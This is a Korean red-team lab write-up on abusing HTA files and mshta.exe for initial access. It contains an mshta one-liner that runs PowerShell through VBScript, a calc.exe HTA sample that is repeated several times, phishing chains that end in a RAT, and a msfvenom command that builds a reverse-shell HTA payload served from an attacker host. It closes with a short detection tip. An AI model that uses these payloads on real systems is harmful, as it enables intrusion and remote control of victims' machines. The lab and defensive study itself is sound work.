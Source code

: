 # HTA

HTA (HTML Application)는 마이크로소프트가 개발한 웹 애플리케이션 프로그래밍 기술이다. HTML, CSS, JavaScript 등의 웹 기술을 사용하여 윈도우 응용 프로그램과 같은 유저 경험을 제공할 수 있다. HTA는 일반적으로 .hta 확장자며 Mshta.exe라는 유틸리티로 실행된다.

HTA는 확장자 파일은 Mshta.exe 윈도우 바이너리로 실행되며네트워크 프록시 인식 방식으로 HTML에 포함된 Windows 스크립트 호스트 코드(VBScript 및 JScript)를 실행할 수 있기 때문에 MS로 서명된 유틸리티를 통해 임의 스크립트 코드 실행을 할 수 있어 공격하기 매력적인(?!?) 수단이다.

아래 트윗은 한 레드팀원이 몇일전에 올린 HTA를 관한 초기 침투가 아직도 많이 쓰이고 있다는것을 알수있다. 

![](../../obsidian_resources/Pasted%20image%2020230501172222.png)


## 보안적인 측면
일단 HTA는 Java applet 이나 액티브X 컨트롤과 같은 기존의 웹 애플리케이션 기술에 비해 보안성과 사용자 경험 측면에서 우수한 성능을 제공할 수 있지만 또한 양날의 검으로 기존 웹 앱과는 다르게 로컬 파일 시스템이나 레지스트리 같은 거에 직접 액세스할 수도 있기 때문에더 많은 권한을 가질 수 있기 때문에 악의적인 목적으로도 충분히 쓰일 수 있다.

아래 실습 예제는 굉장히 간단히 예제 임으로 "왜 제가 만든 악성 hta 파일이 다운받은 즉시 사라지나요?"와 같은 질문은 하지 말길 바란다. 기본적으로 윈도우 디펜더를 다 끄고 진행하고 있기 때문에 아래 실습은 방어 우회를 거의 일체 생각하지 않았다라는 점을 이해해주길 바란다. 

Mitre Attack에서도 Mshta 실행을 하나의 테크닉으로 설명하고 있으며 굉장히 많은 APT그룹도 사용하고 있는 것을 알 수 있다.

https://attack.mitre.org/techniques/T1218/005/

일단 시작하기 앞서, 아래와 같이 mshta는 VBScript로 powershell.exe를 실행, Hello GROOT!를 보여준다.
```powershell
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20Write-Host%20Hello,%20GROOT!;Start-Sleep%20-Seconds%205"""))</script>'"
```

HTA -> VBScript 코드를 실행할 수 있다는것 자체가 이미 여러 목적으로 이용되기에는는 충분한 시나리오다!

![](../../obsidian_resources/Pasted%20image%2020230501210226.png)

## 실습 

기본적으로 HTA를 사용한 악성 코드 실행 시나리오는 여러가지가 있을수 있다.
예를들어, 아래와 같은 시나리오를 통해 리버스 쉘을 받아 볼수도 있다.
-   LNK -> CMD -> Powershell ->  RAT
-   ZIP -> Password protected PDF + "password.lnk" -> RAT
-   DOCx -> LNK -> remote HTA -> Powershell ->  RAT
- 피싱 이메일 -> LOTS를 통한 mediafire/dropbx/github 다운 -> ZIP 파일 -> HTA -> RAT

## 기본 HTA 스크립트 예제

아래 HTA 스크립트는 Windows에서 calc.exe를 실행한다.

**grootcalc.hta**
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>

```
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>

<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
HTML Application을 통해 계산기가 실행되는 것을 알 수 있다.
![](../../obsidian_resources/Pasted%20image%2020230501171712.png)


## Metasploit 예제

가장 간단하게 msfvenom을 통해 HTA Payload를 만들어 보자.  shell_reverse_tcp HTA 페이로드를 만들어 준다.

- LHOST: 칼리 로컬 호스트 로컬 IP
- LPORT: Listener 포트 

```
┌──(kali㉿kali)-[~/redteam/HTA/unicorn]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.137.131 LPORT=443 -f hta-psh -o groot.hta
```

공격자는 타겟이 악성 HTA를 다운받을 수 있게 Python HTTP Server를 포트 8080에 만들어 준다.
![](../../obsidian_resources/Pasted%20image%2020230501175738.png)

브라우저에서 http://192.168.137[.]131:8080/groot.hta 를 방문하여 파일을 다운받고 실행하면 타겟박스 (윈도우) 쉘을 얻을 수 있다.

![](../../obsidian_resources/Pasted%20image%2020230501175551.png)

### 대응 방안
- CMD에서 실행되는 난독화된 스크립트를 실행하는 mshta.exe는 이미 수상하기 때문에 아마 EDR 차원에서  이미 감지를 할수 있다. 또한 mshta.exe 실행 전후 실행도는 Process들을 살펴봐 .hta 파일의 출처와 목적을 확인하는 것이 중요하다.

## 레퍼런스

https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-link/links-hta-files
https://hatching.io/blog/lnk-hta-polyglot/
